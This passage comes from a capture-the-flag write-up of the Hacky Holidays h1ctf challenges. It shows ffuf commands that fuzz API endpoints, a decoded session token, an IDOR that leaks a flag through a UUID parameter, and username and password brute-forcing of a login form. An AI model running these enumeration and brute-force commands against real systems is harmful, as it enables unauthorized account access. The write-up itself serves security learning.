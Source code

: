 ```shell
$ ffuf -u https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ -w common.txt -mc all -fc 404
...
sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
stock                   [Status: 200, Size: 167, Words: 8, Lines: 1]
user                    [Status: 400, Size: 35, Words: 3, Lines: 1]
...
```

In the `/api/sessions` we found 8 base64 encoded session and Grinch has messed up with all of it but one, which when decoded yield

```json
eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==

{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}
```

Now, we have value for `user` which looks like a `uuid` and a cookie. At the first sight, the cookie looked interesting, so after playing with it for some time and reaching no where. It was better to take another approach.

Another interesting endpoint was `/user` which receives GET request and after some guessing, when passed the value for `uuid` parameter with the `/api/user` endpoint it give the information of Grinch's account and the flag. 

{F1133159}

Another IDOR vulnerability, exploiting which, the attacker was able to access the details directly with the UUID.


## Flag 5 - Secure Login

Objective: **Try and find a way past the login page to get to the secret area.**

We were presented with a login form, which in it's error response says if the username/password is incorrect. So we can use it to filter the response and fuzz for username and password one at a time.

**Fuzzing for username:**
```shell
$ ffuf -u https://hackyholidays.h1ctf.com/secure-login -w  names.txt -d "username=FUZZ&password=something" -fr "Invalid Username" -H "Content-Type: application/x-www-form-urlencoded"
...
access                  [Status: 200, Size: 1724, Words: 464, Lines: 37]
...
```

**Fuzzing for password:**
```shell
$ ffuf -u https://hackyholidays.h1ctf.com/secure-login -w  10-million-password-list-top-10000.txt -d "username=access&password=FUZZ" -fr "Invalid Password" -H "Content-Type: application/x-www-form-urlencoded"
...
computer                [Status: 302, Size: 0, Words: 1, Lines: 1]
...
```
